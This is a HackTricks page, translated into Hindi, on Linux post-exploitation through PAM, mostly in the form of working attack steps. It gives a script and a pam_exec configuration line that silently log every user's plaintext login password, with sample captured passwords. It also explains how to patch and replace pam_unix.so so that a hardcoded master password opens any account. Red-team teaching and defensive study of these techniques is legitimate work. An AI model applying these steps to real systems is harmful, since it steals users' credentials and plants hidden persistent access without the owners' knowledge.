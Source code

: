 # Linux Post-Exploitation

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर **मुझे फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>

## PAM के साथ लॉगिन पासवर्ड्स की स्निफिंग

आइए हम एक PAM मॉड्यूल को कॉन्फ़िगर करें जो हर बार जब कोई यूजर लॉगिन करता है तो पासवर्ड लॉग करेगा। यदि आपको PAM के बारे में नहीं पता है तो चेक करें:

{% content-ref url="pam-pluggable-authentication-modules.md" %}
[pam-pluggable-authentication-modules.md](pam-pluggable-authentication-modules.md)
{% endcontent-ref %}

सबसे पहले, हम एक bash स्क्रिप्ट बनाते हैं जो नए प्रमाणीकरण होने पर इन्वोक की जाएगी।
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
```
वेरिएबल्स PAM विशिष्ट हैं और `pam_exec.so` मॉड्यूल के माध्यम से उपलब्ध होंगे।

यहाँ वेरिएबल्स का अर्थ है:

* **$PAM\_USER:** जो उपयोगकर्ता नाम दर्ज किया गया था।
* **$PAM\_RHOST:** दूरस्थ होस्ट (आमतौर पर IP पता)
* **$(cat -):** यह `stdin` को पढ़ता है, और इसमें वह पासवर्ड होगा जिसे स्क्रिप्ट ने पकड़ा है
* परिणाम `/var/log/toomanysecrets.log` में एक लॉग फाइल में पाइप किए जाते हैं

**सभी उपयोगकर्ताओं को फाइल पढ़ने से रोकने के लिए** फाइल को पहले से बनाकर और `chmod` चलाकर विचार करें, उदाहरण के लिए:
```bash
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
```
आगे, PAM कॉन्फ़िगरेशन फ़ाइल को अपडेट करने की ज़रूरत है `pam_exec` मॉड्यूल का उपयोग स्क्रिप्ट को इन्वोक करने के लिए किया जाएगा।

`/etc/pam.d/` में विभिन्न कॉन्फ़िग फ़ाइलें स्थित हैं, और हम `common-auth` का चयन करते हैं।
```
sudo nano /etc/pam.d/common-auth
```
फ़ाइल के सबसे निचले भाग में, निम्नलिखित प्रमाणीकरण मॉड्यूल जोड़ें:

`auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh`

विकल्पों का निम्नलिखित अर्थ है:

* **optional:** यदि कोई त्रुटि हो तो प्रमाणीकरण विफल नहीं होना चाहिए (यह एक आवश्यक चरण नहीं है)
* **pam\_exec.so:** यह एक PAM मॉड्यूल है जो मनमानी स्क्रिप्ट्स को आमंत्रित कर सकता है
* **expose\_authtok:** यह वह चाल है जो `stdin` के माध्यम से पासवर्ड पढ़ने की अनुमति देता है
* **quiet:** यदि कुछ काम नहीं करता है तो उपयोगकर्ता को कोई त्रुटियां न दिखाएं
* अंतिम तर्क पहले बनाई गई शेल स्क्रिप्ट है

![](<../../.gitbook/assets/image (375).png>)

अंत में, फ़ाइल को निष्पादन योग्य बनाएं:

`sudo chmod 700 /usr/local/bin/toomanysecrets.sh`

अब, इसे आज़माएं और दूसरी मशीन से ssh करें, या स्थानीय रूप से लॉगिन करें।

और फिर लॉग फ़ाइल देखें:
```
$ sudo cat /var/log/toomanysecrets.log
Sun Jun 26 23:36:37 PDT 2022 tom, Trustno1!, From: 192.168.1.149
Sun Jun 26 23:37:53 PDT 2022 tom, Trustno1!, From:
Sun Jun 26 23:39:12 PDT 2022 tom, Trustno1!, From: 192.168.1.149
```
### PAM में बैकडोरिंग

PAM के सोर्स कोड की ओर बढ़ते हैं (आपके डिस्ट्रो पर निर्भर करता है, अपने वर्जन नंबर का उपयोग करें..) और pam\_unix\_auth.c फाइल में लाइन नंबर 170/180 के आसपास देखते हैं:
```
vi modules/pam_unix/pam_unix_auth.c
```
```markdown
![](<../../.gitbook/assets/image (651).png>)

इसे बदलते हैं:

![](<../../.gitbook/assets/image (638) (2) (2).png>)

यह किसी भी उपयोगकर्ता को **पासवर्ड "0xMitsurugi"** का उपयोग करके लॉग इन करने की अनुमति देगा।

`pam_unix_auth.c` को फिर से कंपाइल करें, और pam_unix.so फाइल को बदलें:
```
```bash
make
sudo cp \
/home/mitsurugi/PAM/pam_deb/pam-1.1.8/modules/pam_unix/.libs/pam_unix.so \
/lib/x86_64-linux-gnu/security/
```
{% hint style="info" %}
आप इस प्रक्रिया को [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor) के साथ स्वचालित कर सकते हैं।
{% endhint %}

## संदर्भ

* [https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)
* [https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें।
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह।
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में शामिल हों या [**telegram समूह**](https://t.me/peass) में शामिल हों या मुझे **Twitter** 🐦 पर **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **अपनी हैकिंग तरकीबें साझा करें, HackTricks** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>
